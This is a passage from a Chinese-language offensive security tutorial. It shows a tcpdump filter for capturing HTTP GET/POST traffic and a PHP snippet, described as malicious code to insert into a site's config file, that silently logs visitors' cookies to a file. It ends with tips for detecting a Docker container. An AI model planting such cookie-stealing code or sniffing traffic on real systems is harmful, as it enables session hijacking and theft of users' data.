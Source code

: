 ```bash
tcpdump -i eth1 -s 0 -A 'tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x47455420 or tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504f5354'
```

## 网站文件

除了使用抓包工具去进行敏感信息的抓取，我们还可以在网站本身去做一下手脚。  
比如网站是 php 的，那我们可以在配置文件文件中，插入恶意代码，获取 Cookie 等信息，下面是代码示例：

1.  `<?php`
2.  `$fp = fopen('/var/www/html/site/cookies.txt', 'a');`
3.  `fwrite($fp,json_encode($_COOKIE).PHP_EOL);`
4.  `fclose($fp);`

# 云安全

现在越来越多的业务开始上云，使用容器部署业务，那随之而来的也是对应的安全风险，包括不限于未授权访问、命令执行等漏洞。

## docker

### 判断是否是 docker 环境

-   进程数很少，比如少于 10 条  
    ![image-20201209185320827](assets/1700701638-a076af108e3b34f7d5c411aad724f8cb.png)
-   常见的命令却没有，如没有 wget 命令  
    ![image-20201209185457364](assets/1700701638-e7817170afbc14a1a941fc0eabe5d785.png)
-   存在/.dockerenv 文件  
    ![image-20201209185515825](assets/1700701638-6acc9f4567584d16f75c073e5897c402.png)
-   /proc/1/cgroup内包含”docker”字符串  